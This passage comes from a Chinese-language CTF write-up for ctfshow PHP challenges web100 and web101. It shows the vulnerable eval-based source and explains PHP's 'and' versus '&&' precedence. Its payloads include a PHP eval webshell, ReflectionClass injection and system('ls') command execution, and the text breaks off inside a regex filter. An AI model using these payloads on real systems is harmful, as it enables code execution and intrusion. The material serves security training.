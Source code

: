 in_array函数用的是弱比较==，所以

payload

```
n=1.php
content=<?php eval($_POST[1]);?>
```

## web100(反射类)

```php
highlight_file(__FILE__);
include("ctfshow.php");
//flag in class ctfshow;
$ctfshow = new ctfshow();
$v1=$_GET['v1'];
$v2=$_GET['v2'];
$v3=$_GET['v3'];
$v0=is_numeric($v1) and is_numeric($v2) and is_numeric($v3);
if($v0){
    if(!preg_match("/\;/", $v2)){
        if(preg_match("/\;/", $v3)){
            eval("$v2('ctfshow')$v3");
        }
    }
    
}
?> 
```

and和&&的区别

```php
<?php
$a=true and false and false;
var_dump($a);  返回true
$a=true && false && false;
var_dump($a);  返回false
?>
```

payload

```
?v1=1&v2=echo new ReflectionClass&v3=; //直接输出反射类
v1=1&v2=var_dump($ctfshow)&v3=;
v1=1&v2=?><?php system('ls')?>&v3=;
```

ReflectionClass 类(反射类)

## web101(反射类)

```php
highlight_file(__FILE__);
include("ctfshow.php");
//flag in class ctfshow;
$ctfshow = new ctfshow();
$v1=$_GET['v1'];
$v2=$_GET['v2'];
$v3=$_GET['v3'];
$v0=is_numeric($v1) and is_numeric($v2) and is_numeric($v3);
if($v0){
    if(!preg_match("/\\\\|\/|\~|\`|\!|\@|\#|\\$|\%|\^|\*|\)|\-|\_|\+|\=|\{|\[|\"|\'|\,|\.|\;|\?|[0-9]/", $v2)){
        if(!preg_match("/\\\\|\/|\~|\`|\!|\@|\#|\\$|\%|\^|\*|\(|\-|\_|\+|\=|\{|\[|\"|\'|\,|\.|\?|[0-9]/", $v3)){
```